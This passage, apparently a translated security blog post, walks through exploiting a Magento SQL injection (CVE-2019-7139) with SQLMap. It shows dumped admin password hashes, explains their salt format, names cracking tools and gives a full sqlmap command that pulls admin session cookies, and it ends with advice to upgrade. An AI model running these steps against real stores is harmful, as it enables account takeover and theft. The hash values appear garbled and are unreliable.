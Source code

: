 新参数用于指定搜索区域:`-D`用于数据库，`-T`用于表。这里我们将只显示用户名和密码列，因为它们是我们感兴趣的:

| 用户 | 密码 |
| --- | --- |
| admin1 | 97999302 a 66 b 6 DCF 480 c 48681603509 ef 827d 71423307 f 3461857 BC 26 c 4362 c 8:
rd 6 fn hdn 6 bqozfklzr 5 nt 9 KF BDS 1 gpgv:1 |
| 管理 | 815 ba FCA 0 bb 99 e 3709 f 6 FBE 5b 0d 941d 997 a5c 23d 3 f 7 a 4 e 0 BC C4 a9 b 77 b 8608 be 9:
oid BCA 8 TP 41 bnlxwwlekgs 4 RM 5 lefjih:1 |

请注意，密码以字符串形式存储在数据库中，由“:”分隔成三部分

```
1) hash of salt and password
2) salt, by default of 32 bits length
3) version, where 1 is SHA256 and 0 is MD5
```

有了这些信息，就可以用普通工具破解密码，如[哈希卡特](https://hashcat.net/hashcat/)或[开膛手约翰](https://www.openwall.com/john/)。

3.  一种更快的方法不是破解密码，而是从**admin _ user*_*session**表中提取会话 cookies，如果有有效的话；这些都带有网站的管理员权限。默认情况下，会话 cookie 的有效期为 15 分钟，但该值是可定制的。和以前一样，我们必须转储表中的内容。为了说明 SQLMap 的另一个功能，这里我们将直接转储所需的列。

```
sqli@magento:~$ ./sqlmap.py -u 'http://local.magento/catalog/product_frontend_action/synchronize?type_id=recently_products&ids[0][added_at]=&ids[0][product_id][from]=?&ids[0][product_id][to]=' -p "ids[0][product_id][to]" --prefix=")))" --suffix=" -- -" --dbms=mysql --technique=B --level=5 --risk=3 -o --dump -D magento -T admin_user_session -C session_id
```

### 了解如何使用 SQLMap 来利用 Magento 中的 SQL 注入漏洞

在本文中，我们探索了 Magento (CVE-2019-7139)中最近的一个 SQL 注入漏洞，了解了其根本原因，然后我们展示了一种更强大的利用方法，该方法使用 SQLMap。您还可以了解当一个经过[认证的用户滥用 Magento 的协议指令](https://pentest-tools.com/blog/magento-authenticated-rce)来实现基于 PHAR 文件反序列化方式的远程代码执行时会发生什么。

*我们建议将 Magento 升级至最新版本，以缓解此漏洞，因为它相对容易被利用。*
